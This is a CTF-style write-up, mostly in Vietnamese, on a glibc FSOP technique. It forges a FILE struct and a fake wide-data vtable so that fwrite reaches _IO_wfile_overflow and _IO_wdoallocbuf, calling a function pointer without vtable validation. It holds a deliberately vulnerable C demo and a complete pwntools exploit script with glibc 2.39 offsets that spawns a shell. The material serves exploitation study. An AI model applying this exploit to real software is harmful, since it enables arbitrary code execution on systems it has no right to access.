







Lấy cảm hứng từ 4 nguồn: [this](https://aneii11.github.io/p/fsop-code-execution/#targeting-wide_data) , [this](https://niftic.ca/posts/fsop/#_io_wdoallocbuf43), [this](https://github.com/hieuvd341/super-duper-couscous/blob/master/CTFs/Docs/FSOP/readme.md) and [this](https://www.youtube.com/watch?v=vkUR58xxSFI).
Test thành công trên `glibc 2.35`, `2.38`, `2.39` (same code path).

# Scenery

Có khả năng ghi đè file struct nào đó của chương trình, required file pointer address. Có thể overwrite lên file struct đó ít nhất `0xe0 bytes`.

Có libc leak.

Bài này là fake vtable sang một buffer mới -> cần biết địa chỉ của buffer đó, required buffer address. Buffer có thể nhập ít nhất `0xf0 bytes`.

Có hàm `win`, required `win` address.

Ở phiên bản khó hơn là không có address buffer + giới hạn input size + không có `win` function  sẽ update ở readme2.

# POC

## Demo code C

Chỉ cần compile code C theo hướng dẫn shogun (dựa theo version glibc):

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void win() {
    system("/bin/sh");
}

int main() {
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);

    printf("win leak: %p\n", &win);

    char *buf;
    FILE *fp = fopen("/dev/null", "w");
    printf("libc leak: %p\n", stdout);

    buf = malloc(0x100);
    printf("buffer leak: %p\n", buf);
    printf("fake vtable: ");
    read(0, buf, 0x100);

    printf("overwrite file struct: ");
    read(0, fp, 0x100);

    fwrite(buf, 1, 10, fp);

    return 0;
}
```

Cho các leak cần thiết, `win` address, libc base, buf base. Lần `read` đầu tiên sẽ input vào buffer để tạo ra một fake vtable. Lần `read` thứ hai là để overwrite file struct, trigger fsop.

## Demo exploit

Compile trên local với `glibc 2.39`:

```
from pwn import *

exe = ELF("./tmp")
libc = ELF("/home/vani/glibc-2.39/compiled-2.39/lib/libc.so.6")
context.binary = exe

script = '''
b *main
b *main + 244
b *main + 291
'''

p = process("./tmp")
#p = gdb.debug("./tmp", gdbscript = script)

p.recvuntil(b"win leak: ")
win = int(p.recvline(), 16)

p.recvuntil(b"libc leak: ")
libc_base = int(p.recvline(), 16) - 0x1d07a0
print(hex(libc_base))

p.recvuntil(b"buffer leak: ")
buffer = int(p.recvline(), 16)
print(hex(buffer))

fakevtable = fake_vtable = p64(0) * (0xE0//8) + p64(buffer + 0xe0 + 8 - 0x68) + p64(win)

fp = FileStructure()
fp.flags = 0xfbad2484
fp._lock = buffer + 0x1000 
fp._wide_data = buffer
fp.vtable = libc_base  + 0x1ce4a0 - 0x38

p.sendafter(b"fake vtable: ", fakevtable)
p.sendafter(b"struct: ", bytes(fp))

p.interactive()
```

<mark>Với các phiên bản glibc khác, chỉ cần thay đổi lại đoạn tính toán libc base và offset của `fp.vtable`  (sao cho gọi được `_IO_wfile_overflow`)</mark>

# Idea

This exploit came from pwn.college **file struct exploit** module:



## `_IO_wide_data`

`wide_data` là một trường tồn tại ở các FILE structure hiện đại. Nó được tạo để xử lí các wide character stream (ex: unicode) Chứa các trường tương tự như FILE. Nó cũng chứa cả vtable pointer luôn.

Trong libc 2.39, `wide_data` được định nghĩa như sau:
[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/libio.h#L121)


**Fully exploit**:

1. Fake `file._wide_vtable` tại 1 vùng nhớ ta kiểm soát được.
2. `file.wide_data -> vtable` trỏ đến exploit_vtable
3. overwrite `file.vtable` sao cho `IO_wfile_overflow` được gọi.
4. `_IO_wdoallocbuf` sẽ được gọi.
5. `_IO_wdoallocbuf` sẽ gọi `_IO_wide_data.vtable` **with no check**.

## Call `_IO_wfile_overflow`

Hàm `fwrite` sẽ gọi tới `_IO_new_file_xsputn`.



Exploit sẽ shift vtable đi sao cho thay vì gọi `_IO_new_file_xsputn` thì sẽ gọi `__GI__IO_wfile_overflow`, cách offset lớn nhưng vẫn validate do thuộc vùng `libc vtable area`.



Ở trên là vtable gốc, ở dưới là vtable fake.

## Call `_IO_wdoallocbuf`

Let’s see the flow of `_IO_wfile_overflow`:

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/wfileops.c#L406)


To call `_IO_wdoallocbuf` we have to set some flags and value to bypass the check. ~~There’re 3 conditions must be met~~:

- Turn off flag for `_IO_NO_WRITES`, which is `0x0008`.

- Turn off flag for `_IO_CURRENTLY_PUTTING`, which is `0x0800`.

- `f->_wide_data->_IO_write_base == nullptr`. This one is quite easy to set, since the challenge give us 2 buffer.

Theo code path `2.39` thì chỉ cần điều kiện đầu và một trong 2 cái còn lại thỏa mãn (dấu `||` trong `if`). Nhưng `2.35` thì cần cả hai. (Cứ xét đủ just in case).

## Call `_IO_WDOALLOCATE`

Inside the `_IO_WDOALLOCATE` function:

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/wgenops.c#L364)


Again, we still have to bypass 2 checks for it to call `_IO_WDOALLOCATE`, which jumps to `_IO_wide_jumps` with no check:

- `fp->_wide_data->_IO_buf_base == nullptr`. Again, this is easy.

- Turn off the flag for `_IO_UNBUFFERED`, which is `0x0002`.

My exploit’s flag is `filestr.flags = 0xfbad2484`, which passed all the check.

And we all done. We just need to fake `fp->_wide_data->vtable` for `win` to fall right into `_IO_WDOALLOCATE` entry which is at `vtable+0x68`. 

Why? 

Ta gọi hàm `win` thông qua `_IO_WDOALLOCATE (fp)`. Và `_IO_WDOALLOCATE (fp)` lại được định nghĩa như sau:

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/libioP.h#L224)
```
#define _IO_WDOALLOCATE(FP) WJUMP0 (__doallocate, FP)
```

Đây chính là điểm tạo ra khác biệt. Khi mình so sánh code của 2 macro `JUMP0` và `WJUMP0` thì thấy `WJUMP0` hoàn toàn không gọi đến `IO_validate_vtable`

- `JUMP0` nè

```
#define _IO_DOALLOCATE(FP) JUMP0 (__doallocate, FP)
#define JUMP0(FUNC, THIS) (_IO_JUMPS_FUNC(THIS)->FUNC) (THIS)

# define _IO_JUMPS_FUNC(THIS) \
  (IO_validate_vtable                                                   \
   (*(struct _IO_jump_t **) ((void *) &_IO_JUMPS_FILE_plus (THIS)	\
			     + (THIS)->_vtable_offset)))
```

- `WJUMP0` nè

```
#define _IO_WDOALLOCATE(FP) WJUMP0 (__doallocate, FP)
#define WJUMP0(FUNC, THIS) (_IO_WIDE_JUMPS_FUNC(THIS)->FUNC) (THIS)
#define _IO_WIDE_JUMPS_FUNC(THIS) _IO_WIDE_JUMPS(THIS)
#define _IO_WIDE_JUMPS(THIS) \
  _IO_CAST_FIELD_ACCESS ((THIS), struct _IO_FILE, _wide_data)->_wide_vtable
```

Nói chung là không có cái check nào ở đây cả.

## Attention

While exploit, becareful when set the `_lock` value

